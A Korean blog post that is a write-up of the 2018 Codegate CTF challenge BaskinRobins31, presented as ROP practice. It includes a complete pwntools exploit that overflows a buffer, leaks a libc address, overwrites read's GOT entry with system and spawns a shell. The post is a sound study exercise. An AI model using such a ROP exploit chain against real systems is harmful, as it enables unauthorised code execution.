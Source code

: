 ```yaml
---
layout: post
title: "2018 Codegate BaskinRobins31 Write up"
excerpt: "ROP를 공부하기 적합한 간단한 문제"
date: 2020-05-12
categories: [system, ctf]
comments: true
---
```


요세는 새로운 내용을 공부하는게 아닌 기존 지식들을 다시 되돌아보고 있는중이다. 이 문제는 워낙 rop를 공부할때

유용하다고 평이 나있는 문제라 다시 풀어봤다.

1. binary :

![image-20200516135840751](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200516135840751.png)

2. code :

![image-20200516135919726](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200516135919726.png)

3. gadget :

![image-20200516140056317](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200516140056317.png)

![image-20200516140143442](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200516140143442.png)

위에는 bss를 입혀주기 위한 pr이고 밑에는 write나 read를 위한 pppr이다.



4. exploit :

```python
from pwn import *

e = ELF("./BaskinRobins31")
p = process("./BaskinRobins31")
s = ELF("/lib/x86_64-linux-gnu/libc.so.6")

read_got = e.got['read']
read_plt = e.plt['read']
write_plt = e.plt['write']

write_got = e.got['write']
read_offset = s.symbols['read']
sys_offset = s.symbols['system']

bss = e.bss()
sh = "/bin/sh"
pppr = 0x40087a
pr = 0x400bc3

p.recvuntil("How many numbers do you want to take ? (1-3)")

pay = 'A'*184
pay += p64(pppr)
pay += p64(1)
pay += p64(read_got)
pay += p64(8)
pay += p64(write_plt)

pay += p64(pppr)
pay += p64(0)
pay += p64(bss)
pay += p64(len(sh))
pay += p64(read_plt)

pay += p64(pppr)
pay += p64(0)
pay += p64(read_got)
pay += p64(8)
pay += p64(read_plt)

pay += p64(pr)
pay += p64(bss)
pay += p64(read_plt)

p.sendline(pay)
p.recvuntil("Don't break the rules...:( \n")
read_addr = u64(p.recv(6)+"\x00\x00")
log.success('leak: '+hex(read_addr))
libc = read_addr - read_offset
sys_addr = libc + sys_offset
time.sleep(0.1)
p.send(sh)
time.sleep(0.1)
p.sendline(p64(sys_addr))
p.interactive()
```



p. s

64bit rop를 할때는 plt를 밑에다 넣어줘야함. 

